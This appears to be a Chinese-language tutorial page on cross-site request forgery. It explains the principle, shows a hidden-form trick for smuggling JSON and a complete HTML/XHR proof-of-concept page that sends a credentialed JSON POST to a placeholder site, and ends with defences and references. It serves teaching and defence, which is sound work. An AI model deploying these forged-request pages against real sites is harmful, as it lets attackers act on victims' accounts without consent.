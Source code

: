 - [CSRF](#csrf)
  - [0x01 原理](#0x01-原理)
  - [CSRF with Json](#csrf-with-json)
    - [JSON格式](#json格式)
    - [XHR](#xhr)
    - [307 Flash跳转](#307-flash跳转)
  - [0x02 防御](#0x02-防御)
    - [参考](#参考)

# CSRF

## 0x01 原理
原理在于服务端无法确定请求是否是由正常用户发起的,攻击者将敏感请求嵌入在恶意页面中,受害者访问该页面自动触发该请求,受害者浏览器使用受害者的凭据自动向服务器进行敏感请求操作.
## CSRF with Json
### JSON格式
Post JSON数据格式的数据需要构造表单,把post数据作为参数名发送,最后还需要闭合多余的字符.  
`<input type="hidden" name='{"data":"300016001555","test":"' value='test"}' />`
但表单无法设置Content-Type为application/json,如果服务端校验Content-Type则会拒绝该请求.
### XHR
Content-Type头需要设置为application/json。设置自定义Header需要使用XMLHttpRequests,同时需要CORS.
使用XHR提交来设置Content-Type,但该方式会先发生OPTIONS请求,要求服务端不会对该OPTIONS请求的Content-Type做检验,同时需要CORS.
```html
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://www.xxxxx.com/AAA", true);
        xhr.setRequestHeader("Accept", "*/*");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "application/json; charset=utf-8");
        xhr.withCredentials = true;
        xhr.send(JSON.stringify({"data":"300016001555","test":"test"}));
    }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();"/>
    </form>
  </body>
</html>
```
### 307 Flash跳转
通过Flash的跨域和307跳转来绕过限制,307跳转会保持原请求原封不动的进行转发,还是会受到CORS的限制.  
https://github.com/appsecco/json-flash-csrf-poc
## 0x02 防御

1. 在敏感页面的请求中加入唯一的Token,后端对敏感请求进行Token校验,而正常情况下(如果存在XSS可获得Token)攻击者无法获得该Token,则无法冒充用户进行敏感操作.

2. 验证 HTTP Referer 字段,该方法可轻易绕过.

3. 在 HTTP 头中自定义属性并验证,类似于加Token,只是加在HTTP头中,即每个页面都会带上该Token校验头,而不必在每个相关页面代码中都加上Token.

### 参考

https://blog.csdn.net/zl834205311/article/details/81773511
https://tech.meituan.com/2018/10/11/fe-security-csrf.html
https://www.hahwul.com/2016/06/30/web-hacking-putdelete-csrfcross-site/